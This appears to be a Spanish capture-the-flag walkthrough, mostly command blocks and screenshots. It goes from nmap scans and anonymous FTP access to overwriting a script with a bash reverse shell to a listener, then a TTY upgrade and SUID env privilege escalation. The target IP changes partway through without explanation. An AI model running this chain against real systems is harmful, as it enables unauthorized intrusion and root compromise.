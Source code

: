 <h1 align="center"><picture><img src = "https://github.com/user-attachments/assets/068504b7-6b64-4f43-9cf3-dfd3332ff13c"></picture>
<h1 align="center"><picture><img src = "https://github.com/user-attachments/assets/b30f7ed0-a42b-4f65-a21e-bbac74ebf87e"></picture></h1>

  ```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports
nmap -sCV -p22,80 172.17.0.2 -oN targeted
```
![image](https://github.com/user-attachments/assets/d3212d58-f71f-447a-8b84-6fb548b85688)
![image](https://github.com/user-attachments/assets/75f18b27-5568-4fc8-99c2-4c25d613c19b)

```bash
ftp 10.10.44.169
```
Usuario : anonymous <br>
Passwd : 
![image](https://github.com/user-attachments/assets/bb2949af-0f23-4823-a4c4-d56bd78dc1a6)

```bash
cat clean.sh
```
![image](https://github.com/user-attachments/assets/63ff8512-fe5e-47a7-b812-c4e7a31521f4)

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.21.118.81/443 0>&1
```
![image](https://github.com/user-attachments/assets/7a0f08e4-bad8-4f40-bd28-035f2013d764)

```bash
ftp 10.10.44.169
```
Usuario : anonymous <br>
Passwd : 

```bash
cd scripts
put clean.sh
```
![image](https://github.com/user-attachments/assets/3b41d96f-4567-4a9f-9d7a-cd8eda88acaf)

```bash
nc -nlvp 443
```
![image](https://github.com/user-attachments/assets/cf470034-3e08-486a-835f-903af176b1a5)



![image](https://github.com/user-attachments/assets/40406fc6-c84b-4b1b-b3c5-8a7cbebd9431)

```bash
script /dev/null -c bash
"CTRL+Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

![image](https://github.com/user-attachments/assets/7cd147de-4cb3-444c-916a-69a6a053c33a)


```bash
find / -perm -4000 2>/dev/null
```
![image](https://github.com/user-attachments/assets/c8a4e000-6389-4743-b81a-dd87af4c42b5)

```bash
/usr/bin/env /bin/sh -p
```
![image](https://github.com/user-attachments/assets/50304f5a-5e61-4c48-b444-c5b0b6bed376)


